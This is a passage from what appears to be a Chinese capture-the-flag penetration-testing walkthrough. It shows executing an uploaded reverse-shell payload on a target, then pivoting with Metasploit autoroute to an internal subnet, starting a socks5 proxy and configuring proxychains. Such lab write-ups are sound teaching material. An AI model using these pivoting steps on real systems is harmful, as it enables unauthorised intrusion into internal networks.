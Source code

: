 将生成的文件上传到目标主机，并更改 payload 可执行权限，并执行。

```
>>> chmod 777 shell.elf
>>> ./shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZBLiab2iar0EU7kt40m66APLx8wFTI1D8aXJltjJgs2y5Ra78Ia7zWiang/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZpejzku0NJp9JaBXCj9CRhxA8BL3Z8IZOrOBc7LaVHx4x3Ry1tz2DzQ/640?wx_fmt=png)

在攻击端，监听的主机收到目标主机反弹的 shell 权限，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZjhQM6AFDgB7B3JPxT711ialyUAL6pcyZ3sQclzv5djvsSBl85usEM5Q/640?wx_fmt=png)  

**5.  添加代理**
------------

根据提交 flag 后系统反馈的提示说明，需要我们对内网的 web 应用网站进行渗透攻击，此时为了能够访问到内网，需要进行添加代理操作。查看当前路由有一个内网段 ip 地址段位 172.17.0.0/24。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZUTqqMMa9z5tkucAGkYxvgZAkhjsvktn7IibdKAkr3Rj90cKpf0cb0Ug/640?wx_fmt=png)

执行指令添加路由操作。

```
>>>run autoroute -s 172.17.0.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZ658dh9COfmWsESAibMKxpsDEM2D9WBFianFgSs6wlD4CCT4YhEcODxMQ/640?wx_fmt=png)  

添加 socks5 代理：

```
>>>use auxiliary/server/socks5
>>>run
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZBgC2e9CwKGXgjp0SZ01sahKfomSs5EGoPkkq6icuHe0RFd6OMdMx8lQ/640?wx_fmt=png)

此处应用 proxychains 工具，进行内网探测，使用编辑器在文件 / etc/proxychains.conf 的最后一行加入 socks5 代理的配置信息。  

| 

```
---  snippet ---
[ProxyList]
#  add proxy here ...
#  meanwile
#  defaults set to "tor"
socks5  127.0.0.1 1080
```



 |
